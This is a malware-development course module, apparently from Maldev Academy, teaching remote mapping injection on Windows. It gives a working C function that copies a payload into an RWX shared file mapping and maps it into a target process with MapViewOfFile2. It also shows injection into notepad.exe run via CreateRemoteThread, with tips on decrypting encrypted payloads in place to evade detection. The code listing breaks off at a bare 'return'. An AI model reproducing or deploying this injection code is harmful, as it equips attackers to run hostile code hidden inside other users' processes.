 43. Remote Mapping Injection# [**43. Remote Mapping Injection**](https://maldevacademy.com/modules/43)

## **Remote Mapping Injection**

### **Introduction**

The previous module demonstrated a method to perform local payload execution without the need of using private memory. This module demonstrates the same technique on a remote process instead.

### **Remote Mapping Injection**

This section explains the WinAPIs required to perform remote mapping injection. The steps to perform remote mapping injection are listed below.

1. `CreateFileMapping` is called to create a file mapping object.
2. `MapViewOfFile` is then called to map the file mapping object into the local process address space.
3. The payload is moved to the locally allocated memory.
4. A new view of file is mapped into the remote address space of the target process, using `MapViewOfFile2`, mapping the local view of file into the remote process, and thus our copied payload.

### **MapViewOfFile2**

[MapViewOfFile2](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2) maps a view of a file into the address space of a specified, remote process.


```
PVOID MapViewOfFile2(
  [in]           HANDLE  FileMappingHandle,   // Handle to the file mapping object returned by CreateFileMappingA/W
  [in]           HANDLE  ProcessHandle,       // Target process handle
  [in]           ULONG64 Offset,              // Not required - NULL
  [in, optional] PVOID   BaseAddress,         // Not required - NULL
  [in]           SIZE_T  ViewSize,            // Not required - NULL
  [in]           ULONG   AllocationType,      // Not required - NULL
  [in]           ULONG   PageProtection       // The desired page protection.
);

```
* `FileMappingHandle` - A HANDLE to a section that is to be mapped into the address space of the specified process.
* `ProcessHandle` - A HANDLE to a process into which the section will be mapped. The handle must have the `PROCESS_VM_OPERATION` access mask.
* `PageProtection` - The desired page protection.

### **Implementation Note**

Unlike local mapping injection, it's not necessary to make the locally mapped view of the file executable since the payload is not executed locally. Instead, the `MapViewOfFile` uses the `FILE_MAP_WRITE` flag in order to copy the payload. `MapViewOfFile2` will then map the same bytes to the address space of the target process.

`MapViewOfFile2` shares the file mapping handle with `MapViewOfFile`. Therefore, any modifications to the payload in the locally mapped view of the file is reflected in the remote mapped view of the file in the remote process. This is useful for real-world implementations where an encrypted payload needs to be run, as the payload can be mapped to the remote process and decrypted locally, thus decrypting the payload in the remote view of the file for execution.

### **Remote Mapping Injection Function**

`RemoteMapInject` is a function that performs remote mapping injection. It takes 4 arguments:

* `hProcess` - The handle to the target process.
* `pPayload` - The payload's base address.
* `sPayloadSize` - The size of the payload.
* `ppAddress` - A pointer to PVOID that receives the mapped memory's base address.

The function allocates a locally mapped readable-writable buffer and then copies the payload to it. It then uses `MapViewOfFile2` to map the local payload to a new remote buffer in the target process and finally returns the base address of the mapped memory.


```
BOOL RemoteMapInject(IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {

	BOOL        bSTATE            = TRUE;
	HANDLE      hFile             = NULL;
	PVOID       pMapLocalAddress  = NULL,
                pMapRemoteAddress = NULL;

    // Create a file mapping handle with RWX memory permissions
	// This does not allocate RWX view of file unless it is specified in the subsequent MapViewOfFile call
	hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
	if (hFile == NULL) {
		printf("\t[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

    // Maps the view of the payload to the memory
	pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sPayloadSize);
	if (pMapLocalAddress == NULL) {
		printf("\t[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

    // Copying the payload to the mapped memory
	memcpy(pMapLocalAddress, pPayload, sPayloadSize);

	// Maps the payload to a new remote buffer in the target process
	pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
	if (pMapRemoteAddress == NULL) {
		printf("\t[!] MapViewOfFile2 Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("\t[+] Remote Mapping Address : 0x%p \n", pMapRemoteAddress);

_EndOfFunction:
	*ppAddress = pMapRemoteAddress;
	if (hFile)
		CloseHandle(hFile);
	return


```
### **UnmapViewOfFile**

Recall that `UnmapViewOfFile` only takes the base address of the mapped view of a file that is to be unmapped. Calling the `UnmapViewOfFile` WinAPI to unmap the locally mapped payload is prohibited when the payload is still running because the remote view of the file is a reflection of the local one. Therefore, unmapping the local file map view will cause the remote process to crash since the payload is still active.

### **Demo**

The target process for this demo is `Notepad.exe`.

[![](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-109431584-4f2ef9e2-3d8e-49ce-9998-b9070c566647.png)](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-109431584-4f2ef9e2-3d8e-49ce-9998-b9070c566647.png)The image below shows the locally mapped memory containing the payload. Notice that the permissions on the memory is `RW`.

[![](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-209431586-0863ea8b-fa83-486b-aeac-ff718f759de7.png)](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-209431586-0863ea8b-fa83-486b-aeac-ff718f759de7.png)`MapViewOfFile2` maps the same bytes to the address space of the target process, `notepad.exe`. The remotely mapped memory now contains the payload with `RWX` permissions.

[![](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-309431587-6d988463-f0aa-4cc2-8252-1b0d1426af2d.png)](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-309431587-6d988463-f0aa-4cc2-8252-1b0d1426af2d.png)Executing the payload (Using `CreateRemoteThread` for simplicity)

[![](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-409431570-6cd31d0b-0dee-4930-97d3-5124112c3e77.png)](43%20Remote%20Mapping%20Injection%20268ba3a4ebcd42e8a6a99cf2c8eb88c2/remote-map-409431570-6cd31d0b-0dee-4930-97d3-5124112c3e77.png)